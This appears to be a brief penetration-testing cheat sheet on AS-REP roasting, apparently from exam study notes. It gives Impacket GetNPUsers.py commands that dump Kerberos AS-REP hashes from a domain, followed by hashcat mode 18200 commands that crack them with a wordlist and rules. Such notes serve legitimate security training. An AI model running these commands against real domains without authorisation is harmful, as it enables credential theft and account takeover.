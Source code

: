 ```yaml
---
tags:
---
```

# GetNPUsers

Queries target domain for users with 'Do not require Kerberos preauthentication' enabled and export their TGTs for cracking ([AS-REP roasting](https://www.youtube.com/watch?v=EVdwnBFtUtQ))

## Capabilities

```powershell
# ASREPRoast with usersfile
GetNPUsers.py -usersfile $USERSFILE -outputfile hashes.asreproast $DOMAIN/

# ASREPRoast with authentication (users queried via LDAP)
GetNPUsers.py -request -outputfile hashes.asreproast $DOMAIN/$USER:'$PASSWD'
```

Crack the hash in hashcat

```powershell
# Linux
hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt --force
hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

# Windows
.\hashcat.exe -m 18200 hashes\pen-200\hashes.asreproast wordlists\rockyou.txt -r rules\best64.rule --force
```
